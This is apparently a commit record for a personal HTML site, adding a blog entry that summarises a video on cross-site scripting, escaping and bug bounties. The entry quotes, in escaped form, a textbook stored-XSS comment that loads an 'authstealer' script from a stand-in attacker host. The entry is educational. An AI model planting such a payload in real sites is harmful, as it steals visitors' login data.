

Before and after one commit to macphejb/repo, a plain HTML site: page blog1.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Blog update

```diff
--- a/blog1.html
+++ b/blog1.html
@@ -11,5 +11,32 @@
     <h2>9/2/2021</h2>
 
     <p>This week I watched <a href="https://www.youtube.com/watch?v=L5l9lSnNMxg" target="_blank">a Computerphile video on cross-site scripting.</a></p>
+    <p>In this video, Tom Scott delves into a malicious trick that turns HTML and Javascript against themselves.
+        He first explained the basics of Javascript, which was helpful because I have no experience with it. Until watching
+        this video, I had no idea it was a <i>supplement</i> to HTML. I always assumed it was a <i>replacement</i>.
+        Javascript uses the &lt;script&gt; tag to run code in an HTML website. So when compiling an HTML document, the compiler knows
+        to start executing Javascript code as soon as it sees that tag.</p>
+
+    <p>Unfortunately, this can also apply to input text from the user! Meaning if there are no proper measures taken, the user
+        can type the &lt;script&gt; tag into unprotected text input elements and begin running their own code. Luckily, this can be prevented by the
+        website developers by automatically escaping the relevant characters. However, it only takes one mistake to let malicious users
+        have free rein over the site. Examples from the past include routing all site log-ins through 3rd party databases collecting
+        userdata.
+    </p>
+
+    <p>To safeguard against this, most major companies have "bug bounty" programs. If a tech savvy user finds an exploit like this,
+        they can report it to the developers for a reward. Facebook recently (well, recently in 2013 when the video was made) paid
+        out a $12,000 bounty to a person who reported rather than exploited a cross-site scripting bug. I wouldn't be surprised if some people have made entire
+        careers out of bug-hunting.
+    </p>
+
+    <h2>Examples</h2>
+    <p>Here's an example from Wikipedia. Context: a user logs onto a news website where they can enter comments about the article.
+        They leave the following comment: </p>
+    <p>I love the puppies in this story! They're so cute!&lt;script src="http://mallorysevilsite.com/authstealer.js"&gt;</p>
+    <p>Now anyone who loads this article has their site authorization data sent to the malicious user's hidden server.</p>
 </body>
+<footer>
+    <p>Source: <a href="https://en.wikipedia.org/wiki/Cross-site_scripting#Persistent_attack" target="_blank"></a></p>
+</footer>
 </html>
```
